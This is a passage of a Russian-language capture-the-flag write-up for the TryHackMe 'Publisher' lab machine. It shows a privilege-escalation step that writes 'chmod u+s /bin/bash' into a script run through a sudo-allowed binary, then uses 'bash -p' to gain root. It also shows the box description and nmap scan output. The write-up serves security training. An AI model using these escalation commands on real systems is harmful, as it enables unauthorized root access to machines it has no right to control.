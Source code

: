 ```
echo "chmod u+s /bin/bash" > initdb.sh
```

Эта команда подготавливает файл сценария, который установит бит setuid для /bin/bash.

затем сделайте это исполняемым файлом

```
chmod +x initdb.sh
```

и собираюсь запустить системную проверку

```
sudo /usr/bin/syscheck
```

теперь, когда я запускаю /bin/bash -p, предположим, что я получу root-доступ

б@@м! мы получили root-доступ

![[Pasted image 20240428033751.png]]

теперь флаг и готово

![[Pasted image 20240428033802.png]]


# Publisher

**Плошадка:** https://tryhackme.com
**Уровень:** Easy
**Описание**: Машина CTF « **Publisher** » — это смоделированная среда, в которой размещены некоторые службы. С помощью ряда методов перечисления, включая нечеткий анализ каталогов и идентификацию версий, обнаружена уязвимость, позволяющая выполнять удаленное выполнение кода (RCE). Попытки повысить привилегии с помощью пользовательского двоичного файла затруднены ограниченным доступом к критически важным системным файлам и каталогам, что требует более глубокого исследования профиля безопасности системы, чтобы в конечном итоге использовать лазейку, которая позволяет выполнять неограниченную оболочку bash и добиться повышения привилегий.

## Сканирование 

```bash
nmap -sC -sV 10.10 .242 .225
```

```
nmap -sC -sV 10.10.242.225  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-29 13:04 EAT  
Nmap scan report for 10.10.242.225  
Host is up (0.28s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)  
| 256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)  
|_ 256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)  
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: Publisher's Pulse: SPIP Insights & Tips  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 49.82 seconds
```
